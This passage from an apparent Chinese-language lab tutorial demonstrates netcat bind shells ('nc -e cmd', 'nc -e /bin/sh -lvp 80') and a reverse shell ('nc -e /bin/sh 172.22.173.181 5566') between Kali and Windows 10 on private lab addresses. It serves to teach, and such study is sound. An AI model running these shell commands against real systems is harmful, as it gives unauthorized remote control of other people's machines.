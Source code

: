 绑定cmd到本地5566端口

```
nc -e cmd -lvvp 5566
```

![image-20250522113753138](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170030931-1347621240.png)

kali用nc进行连接

![image-20250522113738395](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170031287-1788812727.png)

可以发现到了win10的c盘下面



**windows->Linux**

需要先查看kali开放了哪些端口

```
sudo ufw status
```

![image-20250523121649884](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170031623-236702500.png)

绑定sh

```
nc -e /bin/sh -lvp 80
```

![image-20250523121857175](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170031984-804637770.png)

win10监听

```
nc 172.22.161.122 80
```

![image-20250523121956011](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170032332-2023300928.png)



### 反向连接：先监听，等对方绑定端口后操作对方

**Windows->Linux**

win10先监听5566端口

```
nc -lvp 5566
```

![image-20250523114224072](https://img2023.cnblogs.com/blog/3540423/202505/3540423-20250524170032698-142952557.png)

kali把自己的sh绑定到win10端口上

```
nc -e /bin/sh 172.22.173.181 5566
```
